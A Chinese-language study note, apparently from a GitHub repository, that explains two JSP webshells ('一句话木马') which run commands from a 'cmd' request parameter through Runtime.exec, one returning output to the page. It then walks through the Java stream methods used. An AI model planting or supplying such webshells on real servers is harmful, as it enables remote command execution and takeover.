




# Runtime 命令执行分析

- 主要是对于文档给出的 payload 进行简单分析，因为有一些 java 方法我不是很熟悉，所以阅读起来有点不舒服。

**runtime-exec2.jsp 执行 cmd 命令示例:**

```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```

这是一个简单的 jsp 一句话木马，从外部接收 名为 cmd 的字符串将其作为 exec 方法的参数，不足之处在于无法看到命令执行的回显。

- 为什么我在 IDEA 里新建 jsp，但是对这个内容会爆红？不理解...
- 关于 request.getParameter 的具体含义可以参看[菜鸟教程](https://www.runoob.com/jsp/jsp-form-processing.html)

runtime-exec.jsp 执行 cmd 命令示例：


```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
    InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024]; // 实例化一个字节数组
    int a = -1;

    while ((a = in.read(b)) != -1) {
        baos.write(b, 0, a);
    }

    out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```

- exec 方法执行后会返回一个 Process 类对象，这里调用到 Process类的 `getInputStream()` 方法。这个方法会返回连接到子进程输出的输入流，对于我们的 exec 执行来说，这个返回就可以用来连接到 exec 命令执行后对应子进程的输出流。

- `ByteArrayOutputStream baos = new ByteArrayOutputStream();` 这一行代码是什么意思？



好的，注释告诉我们这个方法用来创建一个新的字节输出流。

- 可以看到 while 循环中是调用到 InputStream 的 read 方法，这个方法是干什么的？

这个方法用来读取输入流中的一些字节，并把这些字节存放到一个缓冲区数组里面。以下是参数和返回值示意：



- 可以看到最后是调用是 ByteArrayOutputStream.write 方法，这个方法是干什么的？



这个方法把指定字节数组中的数据写入到输出流。

- 最后还有一个 ByteArrayOutputStream.toByteArray() 方法，再看看这个：
  



这个方法以一个字节数组的形式返回当前输出流的内容，最后我们通过 new String 的方式把这个字节数组里面的字节逐一转成 ascii 码值。

